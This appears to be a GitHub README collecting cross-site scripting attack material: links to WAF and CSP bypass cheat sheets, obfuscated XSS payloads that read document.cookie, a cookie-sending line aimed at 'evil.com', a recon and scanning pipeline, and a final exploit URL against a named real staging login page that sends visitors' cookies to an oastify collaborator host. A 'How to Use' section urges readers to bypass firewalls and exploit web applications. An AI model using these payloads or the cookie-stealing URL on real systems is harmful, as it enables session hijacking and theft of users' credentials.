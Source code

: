 
---

### **XSS (Cross-Site Scripting) Resources**

#### **1. WAF Bypass & XSS Cheat Sheets**
- **Awesome WAF**:
  ```bash
  https://github.com/0xInfection/Awesome-WAF
  ```
- **Ghetto Bypass**:
  ```bash
  https://d3adend.org/xss/ghettoBypass
  ```
- **Browser's XSS Filter Bypass Cheat Sheet**:
  ```bash
  https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet
  ```
- **Angular Bypass**:
  ```bash
  https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet#angularの利用
  ```

#### **2. XSS Techniques**
- **Bypass Cookies blocked**
  ```bash
  </title><svg/onload="az3m=%27alert(document.co%27; az3m1=%27okie)%27;Az3mEasilyBypassXSS=az3m.concat(az3m1);eval(Az3mEasilyBypassXSS);">
  ```
- **HTTP Only Bypass**:
  ```bash
  location.href = "evil.com?c='escape(document.cookie)'"
  ```
- **Meta Refresh**:
  ```bash
  <meta http-equiv="refresh" content="0; url=http://example.com/">
  ```
- **Method Spoofing**:
  ```bash
  POST /endpoint
  Host: example.com
  _method=POST&data[user][username]=xsspayload
  ```
- **SameSite Bypass**:
  ```bash
  https://hazanasec.github.io/2023-07-30-Samesite-bypass-method-override.md/
  ```
- **Script Source Bypass**:
  ```bash
  <script src=//14.rs>
  <script src=//ł.rip>
  ```
- **XSS Payload**:
  ```bash
  "><img/src='x'/onerror="parent['ale'+'rt'](parent['doc'+'ument']['cookie']);">
  ```
- **Using `eval`**:
  ```bash
  Use eval, but always make sure where to use + and where to use %2b.
  ```

#### **3. CSP (Content Security Policy)**
- **CSP Bypass**:
  ```bash
  https://www.notion.so/CSP-10615e0fe55e8064a661dcfb7c0ee992?pvs=21
  https://cspbypass.com/
  ```

#### **4. Additional Resources**
- **Medium Articles**:
  ```bash
  https://medium.com/@DrakenKun/how-i-was-able-to-find-4-cross-site-scripting-xss-on-vulnerability-disclosure-program-e2f39199ae16
  ```
- **Twitter Threads**:
  ```bash
  https://twitter.com/Botami143/status/1741363525568823385?t=Mh-SqOmunyxQyK7UhoQASQ&s=19
  ```
- **Hahwul's XSS Guide**:
  ```bash
  https://www.hahwul.com/cullinan/xss/?fbclid=IwAR1HX06q3yYwG73REvITzA7mshM0egPaGR0PzqbnzW25HE1h4XdPVrA1ZNY
  ```
- **WAF Bypass XSS Payloads**:
  ```bash
  https://github.com/gprime31/WAF-bypass-xss-payloads/tree/master?fbclid=IwAR3oBisE0veAu87f77xZVubYTTLa7k0bWKo7HTMprPgxfqm_-P2hKDAu2do
  ```
- **OWASP XSS Filter Evasion Cheat Sheet**:
  ```bash
  https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
  ```
- **Zapstiko's XSS Payloads**:
  ```bash
  https://github.com/zapstiko/wordlists/blob/main/xss_payloads
  ```

#### **5. Advanced XSS Payloads**
- **Details Tag Exploit**:
  ```bash
  <dETAILS%0aopen%0aonToGgle%0a%3d%0aa%3dprompt,a(origin)%20x>
  ```

---

### **How to Use This Information**
1. **WAF Bypass**:
   - Use the provided cheat sheets and payloads to bypass Web Application Firewalls (WAFs).

2. **XSS Techniques**:
   - Experiment with different XSS payloads and techniques to find vulnerabilities in web applications.

3. **CSP Bypass**:
   - Study CSP bypass techniques to understand how to exploit Content Security Policy misconfigurations.

4. **Additional Resources**:
   - Refer to the provided links for more in-depth guides and examples of XSS exploitation.

---

```bash
Find subdomains.
subfinder -d domain -all | httpx -o subs1
subdominator -d domain  | httpx -o subs2

Merge all subs in one file
cat sub1 subs2|anew subs

Find history.
cat subs | wayback |anew xss-wayback
katana -list subs -o xss-katana
cat subs | gau --subs -o xss-gau

Sort all history in one file.
cat xss-wayback xss-katana xss-gau |anew xss.txt

Delete unnecessary extensions.
cat xss.txt |sort -u | grep "=" | egrep -iv ".(css|woff|woff2|txt|js|m4r|m4p|m4b|ipa|asa|pkg|crash|asf|asx|wax|wmv|wmx|avi|bmp|class|divx|doc|docx|exe|gif|gz|gzip|ico|jpg|jpeg|jpe|webp|json|mdb|mid|midi|mov|qt|mp3|m4a|mp4|m4v|mpeg|mpg|mpe|webm|mpp|_otf|odb|odc|odf|odg|odp|ods|odt|ogg|pdf|png|pot|pps|ppt|pptx|ra|ram|svg|svgz|swf|tar|tif|tiff|_ttf|wav|wma|wri|xla|xls|xlsx|xlt|xlw|zip)" | uro | httpx | anew xss

Run knoxnl against xss with both GET,POST methods.
knoxnl -i xss -X BOTH -s -o xssoutput.txt
```

```
https://app.staging.makeswift.com/login?next=javascript%3Afetch(%27https%3A%2F%2Flrg1wp93ejpjd16ko0rfja8zqqwhk88x.oastify.com%2Fsteal%3Fcookie%3D%27%2BencodeURIComponent(document.cookie))
![image](https://github.com/user-attachments/assets/d9588aa4-44c3-4ae6-ae9c-07731ae84d9d)

```
